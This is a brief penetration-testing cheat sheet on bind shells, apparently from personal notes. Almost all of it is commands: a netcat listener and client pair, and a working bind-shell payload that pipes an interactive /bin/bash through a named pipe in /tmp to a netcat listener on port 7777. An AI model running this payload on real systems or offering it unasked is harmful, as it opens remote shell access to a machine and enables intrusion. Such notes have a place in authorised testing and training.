 # Bind Shells

Bind TCP Session :

On the target : nc -lvnp 7777
On the Client : nc -nv $TARGET 7777

Bind Shell :

Payload on the Target : rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $TARGET 7777 > /tmp/f
On the Client : nc -nv $TARGET 7777